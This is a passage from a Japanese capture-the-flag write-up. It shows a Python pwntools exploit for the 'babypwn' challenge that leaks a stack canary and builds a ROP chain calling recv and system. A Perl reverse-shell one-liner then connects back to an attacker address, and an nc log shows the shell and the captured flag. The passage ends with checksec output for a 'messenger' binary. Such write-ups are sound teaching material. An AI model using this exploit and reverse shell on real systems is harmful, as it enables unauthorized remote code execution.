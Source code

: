 ```python
log.info('leaked canary: 0x%x' % canary)

# send ROP
payload = ''
payload += 'A' * buffer_size
payload += p32(canary)
payload += 'BBBB'                   # 0x8048b83:        pop    ebx
payload += 'BBBB'                   # 0x8048b84:        pop    edi
payload += p32(addr_bss + 0x800)    # 0x8048b85:        pop    ebp
payload += p32(addr_recv_plt)       # recv(fd, addr_bss, 0x100, 0)
payload += p32(addr_system_plt)     # system(addr_bss)
payload += p32(socket_fd)
payload += p32(addr_bss)
payload += p32(0x100)
payload += p32(0)
echo(payload)

exit_app()

# send connect-back shell one-liner
r.clean()
r.sendline('perl -e \'use Socket;$i="your.global.ip.address";$p=13895;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'\x00')
```

    $ nc -l -v 192.168.xxx.xxx 13895
    Listening on [192.168.xxx.xxx] (family 0, port 13895)
    Connection from 110.10.212.130 59276 received!
    $ ls
    babypwn
    flag
    $ cat flag
    FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}
    $ %                                            

BabyPwn という名前の割にはおもしろい要素がたくさん詰め込まれている感じで, 解いててめちゃくちゃ楽しかった. 気づいたら50点にまで下がっててつらい...

## 12 messenger <small>(205pt)</small>

x86-64 の ELF.

    $ file messenger
    messenger: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=d8396b1a1f90c3679f6946c3693f93abf4563ba4, stripped
    
    $ checksec messenger
    [*] '/tmp/messenger'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.